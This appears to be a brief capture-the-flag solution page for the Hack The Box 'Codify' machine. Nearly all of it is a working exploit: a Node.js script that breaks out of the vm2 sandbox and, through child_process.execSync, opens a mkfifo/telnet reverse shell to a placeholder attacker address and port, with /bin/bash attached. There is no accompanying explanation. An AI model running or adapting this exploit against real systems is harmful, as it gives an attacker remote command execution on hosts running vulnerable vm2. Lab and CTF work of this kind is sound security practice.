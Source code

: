 # codify-HTB-solution
For Reverse Shell

'''
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync("TF=$(mktemp -u);mkfifo $TF && telnet $YOUR_IP $PORT 0<$TF | /bin/bash 1>$TF");
}
`

console.log(vm.run(code));
'''
